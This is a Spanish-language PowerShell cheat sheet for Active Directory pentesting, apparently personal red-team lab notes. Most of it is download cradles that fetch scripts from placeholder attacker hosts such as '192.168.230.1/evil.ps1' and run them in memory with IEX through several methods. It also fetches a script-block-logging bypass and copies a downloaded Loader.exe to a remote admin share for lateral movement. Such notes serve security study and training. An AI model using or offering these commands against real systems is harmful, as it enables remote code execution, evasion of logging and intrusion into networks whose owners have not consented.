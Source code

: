 # Powershell 

Tags: #Powershell #AD #Comandos 

## Cargar e importar un script 

```powershell 
❯ C:\AD\PowerView.ps1                   # Cargar un script 

❯ Import-Module C:\AD\PowerView.psd1    # Importar un modulo 

❯ Get-Command -Module <ModuleName>      # Listar modulos 
```

## Descargar un script 

* [Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')  # Descargar executable en memoria 

❯ IEX (iwr http://IP/sbloggingbypass.txt -UseBasicParsing) 
❯ iwr http://IP/Loader.exe -OutFile C:\Users\Public\Loader.exe 

❯ echo Y | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe 

❯ $ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

❯ PSv3 onwards - iex (iwr 'http://192.168.230.1/evil.ps1')

❯ $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex ❯ $h.responseText

❯ $wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
❯ $r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

## Comandos básicos 

```powershell 
❯ $env:username         # Mirar usuario del dominio 
❯ $env:computername     # Mirar el nombre del computador 

❯ ls env:               # Listar las variables de entorno 

❯ Enter-PSSession computername 
	❯ gpupdate /force 
```